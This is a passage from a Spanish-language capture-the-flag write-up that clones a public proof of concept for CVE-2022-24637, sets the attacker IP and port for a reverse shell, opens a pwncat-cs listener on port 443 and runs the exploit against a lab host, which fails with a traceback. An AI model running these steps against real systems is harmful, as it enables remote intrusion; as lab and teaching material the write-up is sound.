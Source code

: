 # **[CVE-2022-24637](https://github.com/0xRyuk/CVE-2022-24637)**
Así que es hora de usar el PoC encontrado. Primero nos lo clonamos.
```console
➜  content git clone https://github.com/0xRyuk/CVE-2022-24637
Cloning into 'CVE-2022-24637'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 11 (delta 2), reused 8 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (11/11), 7.75 KiB | 2.58 MiB/s, done.
Resolving deltas: 100% (2/2), done.
```

Primero cambiamos las variables `$ip` y `$port` por nuestra IP de atacante y el puerto por el que vamos a estar en escucha para la reverse shell.
![Write-up Image](images/Screenshot_10.png)

Ahora, nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
➜  ~ pwncat-cs -lp 443
```

Sin embargo al lanzar el exploit obtenemos un error.
```console
➜  CVE-2022-24637 git:(main) ✗ python3 exploit.py http://ecorp-analytics.bsh
[SUCCESS] Connected to "http://ecorp-analytics.bsh/" successfully!
[ALERT] The webserver indicates a vulnerable version!
[INFO] Attempting to generate cache for "admin" user
[INFO] Attempting to find cache of "admin" user
Traceback (most recent call last):
  File "/home/kali/Desktop/analytics_c/content/CVE-2022-24637/exploit.py", line 175, in <module>
    cache_username = get_cache_username(cache)
                     ^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/Desktop/analytics_c/content/CVE-2022-24637/exploit.py", line 71, in get_cache_username
    return re.search(regex_cache_username, cache).group(1)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
AttributeError: 'NoneType' object has no attribute 'group'
```
